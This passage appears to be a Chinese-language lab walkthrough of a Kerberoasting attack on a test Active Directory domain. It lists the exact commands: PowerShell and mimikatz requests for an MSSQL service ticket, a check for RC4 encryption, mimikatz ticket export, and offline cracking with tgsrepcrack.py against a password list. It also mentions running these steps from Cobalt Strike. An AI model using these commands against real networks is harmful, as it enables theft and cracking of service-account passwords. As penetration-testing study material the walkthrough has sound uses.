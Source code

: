 ![image-20230724091908795](https://s2.loli.net/2023/07/24/8FfeWbROzxAXmKd.png)

### 清空票据

这里清空票据也是怕影响后续的票据影响。

```
klist purge
```

![image-20230724092005366](https://s2.loli.net/2023/07/24/aQbz5UHuJwLfsAr.png)

### 请求连接

这里我们可以进行请求一下，再请求后会留下票据，这里可以使用powershell或者mimakatz进行请求，如果再cs中，方便的话还是使用mimakatz进行请求。

```
请求：（要产生票据文件），选一个服务，查看是否是rc4加密
powershell Add-Type -AssemblyName System.IdentityModel
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-0day.0day.org:1433"
或mimakatz请求
mimikatz kerberos::ask /target:MSSQLSvc/Srv-DB-0day.0day.org:1433
```

![image-20230724092510334](https://s2.loli.net/2023/07/24/LaIf2C7z3R8Xe1l.png)

### 查看票据

这里可以看一下，一定要是RC4才能够进行破解成功。

```
klist
```

![image-20230724092611351](https://s2.loli.net/2023/07/24/Z8aGWkblm1z3Udc.png)

### 导出票据

这里使用mimikatz导出票据，导出后会在目录中出现相应的票据，这时候我们只需要使用cs自带的文件浏览查看即可。

```
mimikatz kerberos::list /export
```

![image-20230724092735368](https://s2.loli.net/2023/07/24/ukTXinha2sYbDqf.png)

![image-20230724093405513](https://s2.loli.net/2023/07/24/e1t8LzR3Cwybmxv.png)

### 破解票据

这里破解工具相当于是将你的密码字典进行加密比较，成功与否取决于你的字典,同时需要使用到python3。

[破解票据工具](https://github.com/nidem/kerberoast)

```
 python .\tgsrepcrack.py .\pass.txt .\1-40a00000-webadmin@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi
```

![image-20230724094749165](https://s2.loli.net/2023/07/24/qRUBDWZxNn3otbP.png)

